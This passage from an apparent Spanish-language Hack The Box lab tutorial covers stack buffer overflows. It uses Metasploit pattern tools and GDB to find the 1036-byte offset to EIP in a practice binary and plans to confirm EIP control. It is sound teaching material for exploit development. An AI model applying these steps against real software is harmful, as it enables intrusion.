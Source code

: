 ```shell-session
fs             0x0	0
gs             0x63	99
```

#### Determinar el desplazamiento

El desplazamiento se utiliza para determinar cuántos bytes se necesitan para sobrescribir el búfer y cuánto espacio tenemos alrededor de nuestro shellcode.

#### Crear patrón

```shell-session
0xRh4ps00dy@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
0xRh4ps00dy@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

#### GDB - Uso de patrones generados

```shell-session
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

#### BGF - EIP

```shell-session
(gdb) info registers eip

eip            0x69423569	0x69423569
```

#### GDB - Desplazamiento

```shell-session
0xRh4ps00dy@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

#### Desplazamiento del GDB

Si ahora usamos precisamente esta cantidad de bytes para nuestros "`U`", deberíamos llegar exactamente al `EIP`. Para sobrescribirlo y verificar si lo hemos alcanzado como lo habíamos planeado, podemos agregar 4 bytes más con " `\x66`" y ejecutarlo para asegurarnos de que controlamos el `EIP`.
